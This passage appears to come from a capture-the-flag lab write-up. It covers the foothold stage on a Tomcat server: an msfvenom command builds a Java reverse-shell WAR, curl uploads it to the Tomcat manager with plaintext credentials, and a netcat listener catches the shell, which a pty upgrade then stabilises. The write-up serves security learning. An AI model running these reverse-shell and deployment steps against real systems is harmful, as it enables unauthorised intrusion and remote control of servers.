 ## FootHold 

### RCE
Using the obtained **Tomcat** credentials, we can deploy an application in the form of a **WAR file** generated with **msfvenom**. This file includes a **web shell**, enabling us to achieve **Remote Code Execution** (**RCE**) on the target system.

```console
$ msfvenom -p java/shell_reverse_tcp lhost=10.10.199.119 lport=9001 -f war -o reverse.war

Payload size: 13034 bytes
Final size of war file: 13034 bytes
Saved as: reverse.war
```

```console
$ curl -v -u tomcat:OPx52k53D8OkTZpx4fr --upload-file reverse.war "http://10.10.114.233:8080/manager/text/deploy?path=/drcpap&update=true"
*   Trying 10.10.114.233:8080...
* TCP_NODELAY set
* Connected to 10.10.114.233 (10.10.114.233) port 8080 (#0)
* Server auth using Basic with user 'tomcat'
> PUT /manager/text/deploy?path=/drcpap&update=true HTTP/1.1
> Host: 10.10.114.233:8080
> Authorization: Basic **********************
> User-Agent: curl/7.68.0
> Accept: */*
> Content-Length: 13036
> Expect: 100-continue
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 100 
* We are completely uploaded and fine
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 
< Cache-Control: private
< X-Frame-Options: DENY
< X-Content-Type-Options: nosniff
< Content-Type: text/plain;charset=utf-8
< Transfer-Encoding: chunked
< Date: Wed, 20 Nov 2024 14:39:59 GMT
< 
OK - Deployed application at context path [/drcpap]
* Connection #0 to host 10.10.114.233 left intact
```

> great now let's us deploy by : curl 10.10.114.233:8080/drcpap

### stabilizing our shell 

```console
$ nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.114.233 36004
python3 -c 'import pty;pty.spawn("/bin/bash");'
tomcat@Backtrack:/$ export TERM=xterm
export TERM=xterm
tomcat@Backtrack:/$ ^Z
[1]+  Stopped                 nc -lvnp 9001
root@ip-10-10-199-119:~# stty raw -echo; fg
nc -lvnp 9001

tomcat@Backtrack:/$ id
uid=1002(tomcat) gid=1002(tomcat) groups=1002(tomcat)
tomcat@Backtrack:/$ cd /opt/tomcat
```